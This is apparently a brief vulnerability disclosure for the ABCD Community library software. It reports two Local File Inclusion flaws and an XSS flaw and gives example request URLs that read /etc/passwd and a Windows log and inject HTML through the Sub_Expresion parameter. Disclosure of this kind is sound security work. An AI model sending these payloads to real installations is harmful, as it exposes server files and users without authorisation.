 # Local File Inclusion and XSS in **ABCD Community**
## Vulnerable software: https://abcd-community.org/

There are two **Local File Inclusion** vulnerabilities in ABCD software:  
<br>
**show_image.php**   
**otros_sitios.php**

Examples:<br>
www[.]XXXXX[.]com[.]br/common/show_image.php?image=../../../../../../../etc/passwd&base=arquivo
<br>
www[.]XXXXX[.]com[.]br/abcd/opac/php/otros_sitios.php?sitio=C:/Windows/debug/NetSetup.log&submenu=N
<br>
<br>
<br>
A **XSS vulnerability** was found in the **Sub_Expresion** parameter on buscar_integrada.php file:
<br>
<br>
<br>
www[.]XXXXX[.]com[.]br/buscar_integrada.php?alcance=&IR_A=&campo=Se%EF%BF%BD%EF%BF%BDo&LastKey=fdsfadsa&base=arquivo&Diccio=4-1&**Sub_Expresion**=%22fda%3Cinput%3E%3Cinput%3Esfdafds%22&Sub_Expresiones=&Navegacion=&Expresion=&Campos=TW_+~~~+REF_+~~~+DAL_+~~~+FUL_+~~~+SEC_+~~~+SPL_+~~~+GDL_&Operadores=and+~~~+and+~~~+and+~~~+and+~~~+and+~~~+and&modo=1B&llamado_desde=avanzada.php&lang=pt&resaltar=S&prefijo=SEC_&Opcion=buscar_diccionario&Seleccionados=%22fdsaf%22

[<img src="https://www.guerrilhacibernetica.com.br/abcd.png">]

